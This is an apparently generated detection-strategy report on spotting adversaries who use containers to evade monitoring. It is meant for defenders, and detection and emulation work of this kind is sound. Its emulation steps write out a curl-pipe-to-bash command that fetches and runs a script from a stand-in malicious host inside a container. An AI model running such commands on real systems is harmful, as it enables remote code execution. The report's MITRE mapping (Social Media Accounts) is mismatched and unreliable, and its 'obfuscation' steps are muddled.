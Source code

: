 # Alerting & Detection Strategy (ADS) Report: Detect Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
This technique aims to detect adversarial attempts to bypass security monitoring by leveraging container technologies. The primary focus is on identifying malicious activities that exploit containers to evade detection and persist within an organization's network infrastructure.

## Categorization
- **MITRE ATT&CK Mapping:** T1586.001 - Social Media Accounts (Note: This mapping may need adjustment based on further analysis since the technique focuses on container usage for bypassing security measures, not directly social media accounts.)
- **Tactic / Kill Chain Phases:** Resource Development
- **Platforms:** PRE

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1586/001)

## Strategy Abstract
The detection strategy involves monitoring and analyzing data from multiple sources associated with container usage. Key data sources include:
- Container orchestration logs (e.g., Kubernetes, Docker Swarm)
- Network traffic analysis for unusual patterns or communications between containers and external IPs
- Host-level security events related to container activities

Patterns analyzed will focus on:
- Unusual creation of containers or modifications in container configurations without proper authorization.
- Anomalous network traffic originating from containers.
- Containers running processes typically associated with evasion tactics, such as obfuscation tools.

## Technical Context
Adversaries may use containers to bypass security monitoring by taking advantage of the dynamic nature and resource abstraction of containerized environments. In practice, this could involve:
- Setting up ephemeral or disposable containers to execute malicious activities.
- Using containers to run processes that can obscure command-and-control (C2) communication.

### Adversary Emulation Details
An adversary might:
1. Deploy a new container with obfuscated payloads using Docker:
   ```bash
   docker run -d --name evil-container my_obfuscator_image /bin/bash -c "curl http://malicious-url.com/script.sh | bash"
   ```
2. Configure containers to use non-standard ports or protocols for communication.

## Blind Spots and Assumptions
- Assumes container orchestration platforms have logging enabled, which might not always be the case.
- Relies on baseline behavioral analysis; new techniques by adversaries could go undetected without regular updates to detection rules.
- Potential blind spots include encrypted traffic within containers that may conceal malicious activities.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of containerized applications for development and testing purposes.
- Authorized deployment of containers with dynamic configurations as part of DevOps practices.
- Routine updates or maintenance operations involving container orchestration platforms.

## Priority
**Priority Level: High**

Justification:
- Containers are increasingly used in modern IT infrastructures, making this technique relevant to many organizations.
- The ability to evade detection poses a significant risk to security postures if not effectively monitored and mitigated.

## Validation (Adversary Emulation)
Step-by-step instructions to emulate this technique in a test environment:

1. **Set Up Test Environment:**
   - Deploy a container orchestration platform like Kubernetes or Docker Swarm.
   - Ensure logging is enabled for all components.

2. **Simulate Adversarial Behavior:**
   - Create an obfuscated image containing a script:
     ```bash
     echo "curl http://malicious-url.com/script.sh | bash" > malicious_script.sh
     docker build -t my_obfuscator_image .
     ```
   - Deploy the container with unusual network communication:
     ```bash
     docker run -d --name evil-container my_obfuscator_image /bin/bash -c "./malicious_script.sh"
     ```

3. **Monitor and Analyze:**
   - Check orchestration logs for unauthorized container creation.
   - Use network traffic analysis tools to identify suspicious communications.

## Response
When the alert fires:
- Immediately isolate the affected containers to prevent further activities.
- Conduct a thorough investigation of the container's configuration, processes, and network connections.
- Review security policies related to container usage and update them as necessary to prevent recurrence.
- Report findings to relevant stakeholders and consider engaging incident response teams if needed.

## Additional Resources
Additional references and context:
- For more on container security best practices, refer to [Docker Security Best Practices](https://docs.docker.com/engine/security/).
- Kubernetes Network Policies documentation: [Kubernetes Documentation](https://kubernetes.io/docs/concepts/services-networking/network-policies/).

This report provides a structured approach to detecting adversarial use of containers for bypassing security monitoring and outlines strategies for effective detection, validation, and response.